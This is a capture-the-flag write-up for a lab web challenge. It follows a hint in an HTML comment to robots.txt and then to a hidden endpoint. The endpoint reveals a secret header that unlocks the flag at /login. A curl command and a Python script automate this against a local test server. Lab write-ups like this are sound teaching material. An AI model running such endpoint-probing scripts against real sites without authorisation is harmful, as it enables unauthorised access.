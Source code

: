 # Robots and headers

## Overview
By analyzing html we can notice the following comment: ``` <!-- For web crawlers: Check /robots.txt for guidance --> ```, and here in ``` /robots.txt ``` we can see an interesting endpoint, which is ``` /nothing_interesting ```. Visiting that page provides the instructions to obtain the flag.

## Exploit
Bash:
```bash
curl -X POST -H "X-Key-Header: My_key_is_not_so_secret" http://127.0.0.1:6001/login
```

Python:
```py
import requests
from bs4 import BeautifulSoup

url = "http://127.0.0.1:6001"

endpoint = requests.get(url + "/robots.txt").text.split(": ")[-1].strip()

r = requests.get(url + endpoint)
p_tags = BeautifulSoup(r.text, "html.parser").find_all("p")[1:]

custom_key = p_tags[0].get_text().split(": ")[-1]
custom_value = p_tags[1].get_text().split(": ")[-1]

flag = requests.post(url + "/login", headers={custom_key: custom_value}).text
print(flag)
```